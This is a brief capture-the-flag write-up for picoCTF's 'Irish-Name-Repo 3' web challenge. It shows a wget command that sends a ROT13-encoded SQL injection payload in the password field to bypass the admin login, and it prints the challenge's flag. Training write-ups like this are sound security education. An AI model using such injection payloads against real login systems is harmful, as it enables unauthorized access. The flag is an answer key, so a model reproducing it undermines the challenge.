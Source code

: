 # Irish-Name-Repo 3
### Points: 400

## Category
#### Web Exploitation

## Question
#### There is a secure website running at https://jupiter.challenges.picoctf.org/problem/29132/ [(link)](https://jupiter.challenges.picoctf.org/problem/29132/) or http://jupiter.challenges.picoctf.org:29132. Try to see if you can login as admin!
### Hint
>#### Seems like the password is encrypted.

 
## Solution
#### Look at this website main page http://mercury.picoctf.net:8650/
![pico](a/04.png)


#### Open a terminal on Kali Linux and type this command : `wget <loging page url> --post-data="debug=1&password=a'be'1'='1"`
![pico](a/02.png)
#### type this command : `cat login.php` and retrieve the flag. 
![pico](a/1.png)

## Flag
`picoCTF{3v3n_m0r3_SQL_06a9db19}`